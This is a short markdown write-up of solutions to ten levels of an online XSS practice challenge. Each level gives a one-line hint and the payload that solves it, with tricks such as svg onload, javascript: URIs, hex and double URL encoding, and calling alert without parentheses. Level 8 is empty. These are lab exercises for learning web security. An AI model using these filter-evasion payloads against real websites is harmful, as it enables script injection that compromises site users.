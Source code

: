 # XSS Challanges from https://www.zixem.altervista.org/XSS

## Level 1

```html
<svg/onload=alert()>
```
## Level 2

- WAF looking for "script"

```html
<object data="javascRipt:alert()">
```

## Level 3

- %0A (LF = linefeed)

```html
%0A<svg/onload=alert()>
```

## Level 4

- Inline html

```html
x' onerror=javascript:alert()//
```

## Level 5

- param reflected in form post field (action)

```html
XSS&action=javascript:alert(1337)
```

## Level 6

- Hex encodin \x

```
\x3c\x73\x76\x67\x20\x6f\x6e\x6c\x6f\x61\x64\x3d\x61\x6c\x65\x72\x74\x28\x29
```

## Level 7

- Double urlencodeing 

```html
%253Csvg%2520onload%253Dalert%2528%2529%253E
```

## Level 8

## Level 9
- Escape the html tag with ```</p>```

```
</p><svg/onload=alert()>
```

## Level 10

- Filters ```(```

```js
');alert`1`;//
');/**/onerror=alert`1`//
');window[`alert`]`xss`//;
```
